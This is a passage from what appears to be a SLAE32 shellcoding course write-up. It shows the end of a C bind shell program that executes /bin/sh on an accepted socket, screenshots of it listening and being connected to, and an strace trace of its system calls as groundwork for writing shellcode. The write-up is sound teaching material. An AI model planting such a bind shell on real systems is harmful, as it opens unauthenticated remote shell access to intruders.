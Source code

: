 ```c
    }

    /* execute /bin/sh */
    execve("/bin/sh", NULL, NULL);

    close(sockfd);

    return 0;
}
```

**Building and running bind shell C program**<br/>
<img src="{{ site.url }}/images/slae32/01-01.png"/>

**Showing port 9999 now listening**<br/>
<img src="{{ site.url }}/images/slae32/01-02.png"/>

**Connecting to bind shell**<br/>
<img src="{{ site.url }}/images/slae32/01-03.png"/>

## Phase 2: Understanding how parameters are passed around using strace and GDB
The idea of debugging this was to set a breakpoint at each system call and analyze the registers and stack to see what is needed at the point of the call.  With this information we can then come up with our own way to get the same values setup properly in a shellcode safe manner.

We can get a quick view of the calls with strace as seen here (this is useful and is helpful when looking at the assembly dump in GDB). In most cases, you can see the value of each parameter that was used to the function calls which would be either on the stack or in one of the registers.  In the case of a parameter value that is enclosed in curly braces {} this is likely a pointer to a struct that resides on the stack.
```
[sengen@manjaro-x86 assignment1]$ strace -e socket,bind,listen,accept,dup2,execve ./bind_shell_c
execve("./bind_shell_c", ["./bind_shell_c"], 0xbfc4b6a8 /* 54 vars */) = 0
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
bind(3, {sa_family=AF_INET, sin_port=htons(6789), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
listen(3, 1)                            = 0
accept(3, NULL, NULL)                   = 4
dup2(4, 0)                              = 0
dup2(4, 1)                              = 1
dup2(4, 2)                              = 2
execve("/bin/sh", NULL, NULL)           = 0
socket(AF_UNIX, SOCK_STREAM|SOCK_CLOEXEC|SOCK_NONBLOCK, 0) = 5
socket(AF_UNIX, SOCK_STREAM|SOCK_CLOEXEC|SOCK_NONBLOCK, 0) = 5
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=25697, si_uid=1000, si_status=0, si_utime=0, si_stime=0} ---
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=25698, si_uid=1000, si_status=0, si_utime=0, si_stime=0} ---
+++ exited with 0 +++
```
